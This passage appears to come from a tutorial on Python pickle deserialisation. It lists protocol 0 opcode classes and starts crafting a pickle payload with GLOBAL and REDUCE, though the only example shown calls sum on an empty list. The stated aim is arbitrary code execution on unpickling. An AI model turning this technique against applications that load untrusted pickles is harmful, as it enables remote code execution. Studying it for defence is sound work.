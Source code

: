 If we look at the opcodes list for protocol 0 again we notice that there are the
following classes of opcodes:

- loading data (INT, LONG, STRING, NONE, UNICODE, FLOAT)
- declaring data structures (LIST, TUPLE, DICT)
- operate with data structues (APPEND, SETITEM)
- operate on the stack directly (POP, DUP, MARK)
- operate with the memory bank (GET, PUT)
- load global objects onto the stack (GLOBAL)
- specialized operations over the stack (REDUCE, BUILD, INST, STOP)
- others (PERSID)

## Crafting a payload

Now that we understand what some of the opcodes are for and how a payload is
deserialised let us craft a malicious payload that will execute some arbitrary
code upon deserialisation.

What do we know so far?

- we can execute a function with `R` (REDUCE)
- we can load values, especially strings
- we can declare argument lists with `(` (MARK) and `TUPLE`

For the rest of this section we will show the payload in disassembled format as
well as in serialized format.

### Calling sum with an empty list

Let us call the sum function

```
GLOBAL __builtin__.sum
MARK  # create a mark for the args  
  MARK  # create a mark for an empty list
    LIST  # generate the list on the stack
  TUPLE  # generate the args (contains the previous empty list)
REDUCE  # call sum with the empty list
STOP
```

The above would be equivalent of:

```
sum_f = __builtin__.sum
some_list = []
args = (some_list,)
result = sum_f(*args)
```

serialised:

```python
print(pickle.loads(b'c__builtin__\nsum\n((ltR.'))  
# prints 0
```
